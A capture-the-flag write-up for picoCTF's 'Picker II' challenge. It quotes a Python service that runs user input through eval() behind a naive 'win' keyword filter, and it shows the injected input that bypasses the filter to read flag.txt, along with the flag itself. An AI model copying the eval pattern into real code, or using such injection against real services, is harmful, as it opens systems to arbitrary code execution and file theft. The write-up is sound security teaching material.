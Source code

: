 # Picker II

## Description
Can you figure out how this program works to get the flag?  
Connect to the program with netcat: ```$ nc saturn.picoctf.net 61459```

## Challenge Information
**Point Value:** 100  
**Category:** Low Level Binary

## Hints
1. Can you do what win does with your input to the program?

## Solution
We are given a python file that supposedly outputs a random number. If we look through the file, we see that it evaluates the passed in function and runs it: 
```py
while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
```
We notice that the win function prints out our flag,
```py
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
```
so we try typing win into the prompt, but we get out: ```Illegal input```. We notice that there is a filter function that the user_input is passed too to check the function name, so we cant just input win.
```py
def filter(user_input):
  if 'win' in user_input:
    return False
  return True
```
Instead we can try running the functions that are inside of the win function to see if we get the flag. We put ```print(open('flag.txt', 'r').read())``` into the prompt and we get out ```picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_b924e8e5}```, and we got the flag.

## Flag
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_b924e8e5}